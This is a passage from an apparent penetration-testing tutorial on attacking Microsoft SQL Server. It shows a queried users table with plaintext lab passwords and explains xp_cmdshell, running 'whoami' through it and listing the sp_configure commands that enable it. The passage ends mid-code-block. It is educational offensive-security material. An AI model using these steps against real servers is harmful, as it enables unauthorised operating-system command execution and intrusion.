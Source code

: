 ```cmd-session
1> SELECT * FROM users
2> go

id          username             password         data_of_joining
----------- -------------------- ---------------- -----------------------
          1 admin                p@ssw0rd         2020-07-02 00:00:00.000
          2 administrator        adm1n_p@ss       2020-07-02 11:30:50.000
          3 john                 john123!         2020-07-02 11:47:16.000
          4 tom                  tom123!          2020-07-02 12:23:16.000

(4 rows affected)
```

## Execute Commands

`Command execution` is one of the most desired capabilities when attacking common services because it allows us to control the operating system. If we have the appropriate privileges, we can use the SQL database to execute system commands or create the necessary elements to do it.

`MSSQL` has a [extended stored procedures](https://docs.microsoft.com/en-us/sql/relational-databases/extended-stored-procedures-programming/database-engine-extended-stored-procedures-programming?view=sql-server-ver15) called [xp\_cmdshell](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15) which allow us to execute system commands using SQL. Keep in mind the following about `xp_cmdshell`:

* `xp_cmdshell` is a powerful feature and disabled by default. `xp_cmdshell` can be enabled and disabled by using the [Policy-Based Management](https://docs.microsoft.com/en-us/sql/relational-databases/security/surface-area-configuration) or by executing [sp\_configure](https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/xp-cmdshell-server-configuration-option)
* The Windows process spawned by `xp_cmdshell` has the same security rights as the SQL Server service account
* `xp_cmdshell` operates synchronously. Control is not returned to the caller until the command-shell command is completed

To execute commands using SQL syntax on MSSQL, use:

### **XP\_CMDSHELL**

```cmd-session
1> xp_cmdshell 'whoami'
2> GO

output
-----------------------------
no service\mssql$sqlexpress
NULL
(2 rows affected)
```

If `xp_cmdshell` is not enabled, we can enable it, if we have the appropriate privileges, using the following command:

```mssql
-- To allow advanced options to be changed.  
EXECUTE sp_configure 'show advanced options', 1
GO

-- To update the currently configured value for advanced options.  
RECONFIGURE
GO  

-- To enable the feature.  
EXECUTE sp_configure 'xp_cmdshell', 1
GO  

-- To update the currently configured value for this feature.  
```